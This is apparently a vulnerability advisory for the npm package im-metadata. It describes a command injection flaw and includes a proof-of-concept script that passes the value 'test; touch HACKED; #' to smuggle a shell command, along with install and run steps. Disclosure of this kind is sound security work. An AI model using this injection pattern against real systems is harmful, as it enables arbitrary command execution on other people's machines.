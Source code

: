 # Overview

This vulnerability allows to execute `arbitrary commands remotely inside the victim's PC`

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var metadata = require("im-metadata");
metadata("test; touch HACKED; #", {}, function () {});
```

1. Check there aren't files called `HACKED`
1. Execute the following commands in another terminal:

```bash
npm i im-metadata # Install affected module
node poc.js #  Run the PoC
```

1. Recheck the files: now `HACKED` has been created :)
